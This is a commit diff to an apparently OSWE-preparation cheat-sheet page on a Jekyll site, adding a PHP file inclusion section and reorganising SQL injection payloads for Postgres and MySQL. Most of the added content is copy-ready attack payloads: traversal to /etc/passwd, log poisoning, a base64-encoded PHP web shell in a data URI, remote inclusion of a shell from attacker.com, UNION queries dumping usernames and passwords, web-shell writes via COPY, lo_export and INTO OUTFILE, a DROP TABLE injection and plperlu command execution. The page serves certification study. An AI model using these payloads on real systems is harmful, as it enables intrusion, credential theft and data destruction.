

Before and after one commit to Extravenger/extravenger.github.io, a Jekyll site: the page oswe-code-snippets/index.html, which Jekyll copies as it is, in a window 1280 px wide and 1400 px high, scrolled down 13993 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update index.html

```diff
--- a/oswe-code-snippets/index.html
+++ b/oswe-code-snippets/index.html
@@ -809,13 +809,19 @@
                     </li>
                 </ul>
             </li>
-            <li><a href="#regex-cheatsheet">5. Regex Cheatsheet</a>
+            <li><a href="#file-inclusion-vulnerabilities-in-php">5. File Inclusion Vulnerabilities in PHP</a>
+                <ul>
+                    <li><a href="#local-file-inclusion-lfi">Local File Inclusion (LFI)</a></li>
+                    <li><a href="#remote-file-inclusion-rfi">Remote File Inclusion (RFI)</a></li>
+                </ul>
+            </li>
+            <li><a href="#regex-cheatsheet">6. Regex Cheatsheet</a>
                 <ul>
                     <li><a href="#match-a-start-and-end-delimiter-in-rtext">Match a START and END Delimiter in r.text</a></li>
                     <li><a href="#extract-a-cookie-value-from-response-headers">Extract a Cookie Value from Response Headers</a></li>
                 </ul>
             </li>
-            <li><a href="#xss-payloads">6. XSS Payloads</a>
+            <li><a href="#xss-payloads">7. XSS Payloads</a>
                 <ul>
                     <li><a href="#load-external-javascript">Load External JavaScript</a></li>
                     <li><a href="#load-inline-javascript">Load Inline JavaScript</a></li>
@@ -825,13 +831,14 @@
                     <li><a href="#send-request-to-specific-endpoint-with-custom-header-and-send-response-back">Send Request to Specific Endpoint with Custom Header and Send Response Back</a></li>
                 </ul>
             </li>
-            <li><a href="#sql-injection-payloads-and-postgres-cheatsheet">7. SQL Injection Payloads and Postgres Cheatsheet</a>
+            <li><a href="#sql-injection-cheatsheet">8. SQL Injection Cheatsheet</a>
                 <ul>
-                    <li><a href="#sql-injection-payloads">SQL Injection Payloads</a></li>
-                    <li><a href="#basic-postgres-commands">Basic Postgres Commands</a></li>
+                    <li><a href="#general-sql-injection-payloads">General SQL Injection Payloads</a></li>
+                    <li><a href="#postgres-specific">Postgres Specific</a></li>
+                    <li><a href="#mysql-specific">MySQL Specific</a></li>
                 </ul>
             </li>
-            <li><a href="#javascript-code-snippets">8. JavaScript Code Snippets</a>
+            <li><a href="#javascript-code-snippets">9. JavaScript Code Snippets</a>
                 <ul>
                     <li><a href="#basic-fetch-request">Basic Fetch Request</a></li>
                     <li><a href="#fetch-with-headers-and-body">Fetch with Headers and Body</a></li>
@@ -1679,6 +1686,47 @@ if __name__ == "__main__":
             <button class="copy-btn">Copy</button>
         </div>
 
+        <h2 id="file-inclusion-vulnerabilities-in-php">File Inclusion Vulnerabilities in PHP</h2>
+
+        <h3 id="local-file-inclusion-lfi">Local File Inclusion (LFI)</h3>
+        <p>LFI occurs when an application includes files based on user input without proper validation or sanitization. This can allow attackers to read sensitive local files.</p>
+        <p>Common vulnerable code:</p>
+        <div class="code-container">
+            <pre><code class="language-php">include($_GET['page'] . '.php');</code></pre>
+            <button class="copy-btn">Copy</button>
+        </div>
+        <p>Configurations that enable/exacerbate LFI:</p>
+        <ul>
+            <li>No specific php.ini setting required, but open_basedir can restrict directories.</li>
+            <li>If open_basedir is not set, attackers can traverse directories using ../</li>
+        </ul>
+        <p>Abuse strategies:</p>
+        <ul>
+            <li>Read sensitive files: ?page=../../../etc/passwd</li>
+            <li>Use wrappers for code execution: ?page=php://filter/convert.base64-encode/resource=../../config.php (to read encoded source)</li>
+            <li>Log poisoning: Inject PHP code into logs (e.g., via User-Agent) and include the log file: ?page=/var/log/apache2/access.log</li>
+            <li>Data URI for RCE if allow_url_include=On: ?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+</li>
+        </ul>
+
+        <h3 id="remote-file-inclusion-rfi">Remote File Inclusion (RFI)</h3>
+        <p>RFI allows inclusion of remote files, leading to remote code execution if the included file contains malicious code.</p>
+        <p>Common vulnerable code:</p>
+        <div class="code-container">
+            <pre><code class="language-php">include($_GET['page']);</code></pre>
+            <button class="copy-btn">Copy</button>
+        </div>
+        <p>Configurations that enable RFI:</p>
+        <ul>
+            <li>allow_url_fopen=On (default, allows remote file access)</li>
+            <li>allow_url_include=On (allows include/require of remote files)</li>
+        </ul>
+        <p>Abuse strategies:</p>
+        <ul>
+            <li>Include remote shell: ?page=http://attacker.com/shell.txt (where shell.txt contains <?php system($_GET['cmd']); ?>)</li>
+            <li>Bypass filters: Use null byte %00 if PHP < 5.3: ?page=http://attacker.com/shell.txt%00</li>
+            <li>Combine with LFI for advanced attacks.</li>
+        </ul>
+
         <h2 id="regex-cheatsheet">Regex Cheatsheet</h2>
 
         <h3 id="match-a-start-and-end-delimiter-in-rtext">Match a START and END Delimiter in r.text</h3>
@@ -1856,34 +1904,158 @@ req2.send();
             <button class="copy-btn">Copy</button>
         </div>
         <div class="code-container">
+            <pre><code class="language-sql">'; DROP TABLE users; -- -</code></pre>
+            <button class="copy-btn">Copy</button>
+        </div>
+
+        <h3 id="postgres-specific">Postgres Specific</h3>
+        <p>Postgres SQL Injection Payloads:</p>
+        <div class="code-container">
             <pre><code class="language-sql">' AND (SELECT pg_sleep(5)) -- -</code></pre>
             <button class="copy-btn">Copy</button>
         </div>
         <div class="code-container">
+            <pre><code class="language-sql">' UNION SELECT version() -- -</code></pre>
+            <button class="copy-btn">Copy</button>
+        </div>
+        <div class="code-container">
+            <pre><code class="language-sql">' UNION SELECT datname FROM pg_database -- -</code></pre>
+            <button class="copy-btn">Copy</button>
+        </div>
+        <div class="code-container">
+            <pre><code class="language-sql">' UNION SELECT schema_name FROM information_schema.schemata -- -</code></pre>
+            <button class="copy-btn">Copy</button>
+        </div>
+        <div class="code-container">
+            <pre><code class="language-sql">' UNION SELECT table_name FROM information_schema.tables WHERE table_schema='public' -- -</code></pre>
+            <button class="copy-btn">Copy</button>
+        </div>
+        <div class="code-container">
+            <pre><code class="language-sql">' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users' -- -</code></pre>
+            <button class="copy-btn">Copy</button>
+        </div>
+        <div class="code-container">
+            <pre><code class="language-sql">' UNION SELECT username,password FROM users -- -</code></pre>
+            <button class="copy-btn">Copy</button>
+        </div>
+        <div class="code-container">
+            <pre><code class="language-sql">' UNION SELECT COPY (SELECT '&lt;?php system($_GET["cmd"]); ?&gt;') TO '/var/www/html/shell.php' -- -</code></pre>
+            <button class="copy-btn">Copy</button>
+        </div>
+        <div class="code-container">
+            <pre><code class="language-sql">' UNION SELECT lo_export(lo_create('\x3c3f7068702073797374656d28245f4745545b27636d64275d293b203f3e'), '/var/www/html/shell.php') -- -</code></pre>
+            <button class="copy-btn">Copy</button>
+        </div>
+        <p>Basic Postgres Commands:</p>
+        <div class="code-container">
+            <pre><code class="language-sql">SELECT datname FROM pg_database;</code></pre>
+            <button class="copy-btn">Copy</button>
+        </div>
+        <div class="code-container">
+            <pre><code class="language-sql">SELECT table_name FROM information_schema.tables WHERE table_schema = 'public';</code></pre>
+            <button class="copy-btn">Copy</button>
+        </div>
+        <div class="code-container">
+            <pre><code class="language-sql">SELECT column_name, data_type FROM information_schema.columns WHERE table_name = 'your_table';</code></pre>
+            <button class="copy-btn">Copy</button>
+        </div>
+        <div class="code-container">
+            <pre><code class="language-sql">SELECT * FROM your_table;</code></pre>
+            <button class="copy-btn">Copy</button>
+        </div>
+        <div class="code-container">
+            <pre><code class="language-sql">INSERT INTO your_table (column1, column2) VALUES ('value1', 'value2');</code></pre>
+            <button class="copy-btn">Copy</button>
+        </div>
+        <div class="code-container">
+            <pre><code class="language-sql">UPDATE your_table SET column1 = 'new_value' WHERE condition_column = 'condition_value';</code></pre>
+            <button class="copy-btn">Copy</button>
+        </div>
+        <div class="code-container">
+            <pre><code class="language-sql">DELETE FROM your_table WHERE condition_column = 'condition_value';</code></pre>
+            <button class="copy-btn">Copy</button>
+        </div>
+        <div class="code-container">
+            <pre><code class="language-sql">DROP TABLE your_table;</code></pre>
+            <button class="copy-btn">Copy</button>
+        </div>
+        <div class="code-container">
+            <pre><code class="language-sql">SELECT current_user;</code></pre>
+            <button class="copy-btn">Copy</button>
+        </div>
+        <div class="code-container">
+            <pre><code class="language-sql">SELECT version();</code></pre>
+            <button class="copy-btn">Copy</button>
+        </div>
+        <div class="code-container">
+            <pre><code class="language-sql">SELECT pg_sleep(5);</code></pre>
+            <button class="copy-btn">Copy</button>
+        </div>
+        <div class="code-container">
+            <pre><code class="language-sql">SELECT pg_read_file('/etc/passwd');</code></pre>
+            <button class="copy-btn">Copy</button>
+        </div>
+        <div class="code-container">
+            <pre><code class="language-sql">COPY (SELECT 'data') TO '/tmp/test.txt';</code></pre>
+            <button class="copy-btn">Copy</button>
+        </div>
+        <div class="code-container">
+            <pre><code class="language-sql">CREATE EXTENSION IF NOT EXISTS plperlu; SELECT system('ls');</code></pre>
+            <button class="copy-btn">Copy</button>
+        </div>
+        <div class="code-container">
+            <pre><code class="language-sql">SELECT schema_name FROM information_schema.schemata;</code></pre>
+            <button class="copy-btn">Copy</button>
+        </div>
+        <div class="code-container">
+            <pre><code class="language-sql">SELECT usename FROM pg_user;</code></pre>
+            <button class="copy-btn">Copy</button>
+        </div>
+        <div class="code-container">
+            <pre><code class="language-sql">SELECT current_database();</code></pre>
+            <button class="copy-btn">Copy</button>
+        </div>
+        <p>Postgres Database Shortcuts (psql meta-commands):</p>
+        <div class="code-container">
+            <pre><code class="language-bash">\l - List all databases</code></pre>
+            <button class="copy-btn">Copy</button>
+        </div>
+        <div class="code-container">
+            <pre><code class="language-bash">\c database_name - Connect to a database</code></pre>
+            <button class="copy-btn">Copy</button>
+        </div>
+        <div class="code-container">
+            <pre><code class="language-bash">\dt - List all tables in the current database</code></pre>
+            <button class="copy-btn">Copy</button>
+        </div>
+        <div class="code-container">
+            <pre><code class="language-bash">\d table_name - Describe a table (columns, types, etc.)</code></pre>
+            <button class="copy-btn">Copy</button>
+        </div>
+        <div class="code-container">
+            <pre><code class="language-bash">\du - List all users and roles</code></pre>
+            <button class="copy-btn">Copy</button>
+        </div>
+        <div class="code-container">
+            <pre><code class="language-bash">\dn - List all schemas</code></pre>
+            <button class="copy-btn">Copy</button>
+        </div>
+        <div class="code-container">
+            <pre><code class="language-bash">\q - Quit psql</code></pre>
+            <button class="copy-btn">Copy</button>
+        </div>
+
+        <h3 id="mysql-specific">MySQL Specific</h3>
+        <p>MySQL SQL Injection Payloads:</p>
+        <div class="code-container">
             <pre><code class="language-sql">' AND SLEEP(5) -- -</code></pre>
             <button class="copy-btn">Copy</button>
         </div>
         <div class="code-container">
-            <pre><code class="language-sql">' UNION SELECT version() -- -</code></pre>
-            <button class="copy-btn">Copy</button>
-        </div>
-        <div class="code-container">
             <pre><code class="language-sql">' UNION SELECT @@version -- -</code></pre>
             <button class="copy-btn">Copy</button>
         </div>
         <div class="code-container">
-            <pre><code class="language-sql">' UNION SELECT datname FROM pg_database -- -</code></pre>
-            <button class="copy-btn">Copy</button>
-        </div>
-        <div class="code-container">
-            <pre><code class="language-sql">' UNION SELECT schema_name FROM information_schema.schemata -- -</code></pre>
-            <button class="copy-btn">Copy</button>
-        </div>
-        <div class="code-container">
-            <pre><code class="language-sql">' UNION SELECT table_name FROM information_schema.tables WHERE table_schema='public' -- -</code></pre>
-            <button class="copy-btn">Copy</button>
-        </div>
-        <div class="code-container">
             <pre><code class="language-sql">' UNION SELECT table_name FROM information_schema.tables WHERE table_schema=database() -- -</code></pre>
             <button class="copy-btn">Copy</button>
         </div>
@@ -1892,14 +2064,6 @@ req2.send();
             <button class="copy-btn">Copy</button>
         </div>
         <div class="code-container">
-            <pre><code class="language-sql">' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users' -- -</code></pre>
-            <button class="copy-btn">Copy</button>
-        </div>
-        <div class="code-container">
-            <pre><code class="language-sql">' UNION SELECT username,password FROM users -- -</code></pre>
-            <button class="copy-btn">Copy</button>
-        </div>
-        <div class="code-container">
             <pre><code class="language-sql">' UNION SELECT "&lt;?php system($_GET['cmd']); ?&gt;" INTO OUTFILE '/var/www/html/shell.php' -- -</code></pre>
             <button class="copy-btn">Copy</button>
         </div>
@@ -1908,92 +2072,10 @@ req2.send();
             <button class="copy-btn">Copy</button>
         </div>
         <div class="code-container">
-            <pre><code class="language-sql">' UNION SELECT COPY (SELECT '&lt;?php system($_GET["cmd"]); ?&gt;') TO '/var/www/html/shell.php' -- -</code></pre>
-            <button class="copy-btn">Copy</button>
-        </div>
-        <div class="code-container">
-            <pre><code class="language-sql">' UNION SELECT lo_export(lo_create('\x3c3f7068702073797374656d28245f4745545b27636d64275d293b203f3e'), '/var/www/html/shell.php') -- -</code></pre>
-            <button class="copy-btn">Copy</button>
-        </div>
-        <div class="code-container">
             <pre><code class="language-sql">INSERT INTO users (id, name) VALUES (1, 'test') INTO OUTFILE '/tmp/test.txt' -- -</code></pre>
             <button class="copy-btn">Copy</button>
         </div>
         <p>Use comments like <code>/*comment*/</code>, case variations, or encodings like <code>UN/**/ION SEL/**/ECT</code>.</p>
-        <div class="code-container">
-            <pre><code class="language-sql">'; DROP TABLE users; -- -</code></pre>
-            <button class="copy-btn">Copy</button>
-        </div>
-
-        <h3 id="basic-postgres-commands">Basic Postgres Commands</h3>
-        <div class="code-container">
-            <pre><code class="language-sql">SELECT datname FROM pg_database;</code></pre>
-            <button class="copy-btn">Copy</button>
-        </div>
-        <div class="code-container">
-            <pre><code class="language-sql">SELECT table_name FROM information_schema.tables WHERE table_schema = 'public';</code></pre>
-            <button class="copy-btn">Copy</button>
-        </div>
-        <div class="code-container">
-            <pre><code class="language-sql">SELECT column_name, data_type FROM information_schema.columns WHERE table_name = 'your_table';</code></pre>
-            <button class="copy-btn">Copy</button>
-        </div>
-        <div class="code-container">
-            <pre><code class="language-sql">SELECT * FROM your_table;</code></pre>
-            <button class="copy-btn">Copy</button>
-        </div>
-        <div class="code-container">
-            <pre><code class="language-sql">INSERT INTO your_table (column1, column2) VALUES ('value1', 'value2');</code></pre>
-            <button class="copy-btn">Copy</button>
-        </div>
-        <div class="code-container">
-            <pre><code class="language-sql">UPDATE your_table SET column1 = 'new_value' WHERE condition_column = 'condition_value';</code></pre>
-            <button class="copy-btn">Copy</button>
-        </div>
-        <div class="code-container">
-            <pre><code class="language-sql">DELETE FROM your_table WHERE condition_column = 'condition_value';</code></pre>
-            <button class="copy-btn">Copy</button>
-        </div>
-        <div class="code-container">
-            <pre><code class="language-sql">DROP TABLE your_table;</code></pre>
-            <button class="copy-btn">Copy</button>
-        </div>
-        <div class="code-container">
-            <pre><code class="language-sql">SELECT current_user;</code></pre>
-            <button class="copy-btn">Copy</button>
-        </div>
-        <div class="code-container">
-            <pre><code class="language-sql">SELECT version();</code></pre>
-            <button class="copy-btn">Copy</button>
-        </div>
-        <div class="code-container">
-            <pre><code class="language-sql">SELECT pg_sleep(5);</code></pre>
-            <button class="copy-btn">Copy</button>
-        </div>
-        <div class="code-container">
-            <pre><code class="language-sql">SELECT pg_read_file('/etc/passwd');</code></pre>
-            <button class="copy-btn">Copy</button>
-        </div>
-        <div class="code-container">
-            <pre><code class="language-sql">COPY (SELECT 'data') TO '/tmp/test.txt';</code></pre>
-            <button class="copy-btn">Copy</button>
-        </div>
-        <div class="code-container">
-            <pre><code class="language-sql">CREATE EXTENSION IF NOT EXISTS plperlu; SELECT system('ls');</code></pre>
-            <button class="copy-btn">Copy</button>
-        </div>
-        <div class="code-container">
-            <pre><code class="language-sql">SELECT schema_name FROM information_schema.schemata;</code></pre>
-            <button class="copy-btn">Copy</button>
-        </div>
-        <div class="code-container">
-            <pre><code class="language-sql">SELECT usename FROM pg_user;</code></pre>
-            <button class="copy-btn">Copy</button>
-        </div>
-        <div class="code-container">
-            <pre><code class="language-sql">SELECT current_database();</code></pre>
-            <button class="copy-btn">Copy</button>
-        </div>
 
         <h2 id="javascript-code-snippets">JavaScript Code Snippets</h2>
 
```
Also changed, not shown: other parts of oswe-code-snippets/index.html (+9 -9 lines).
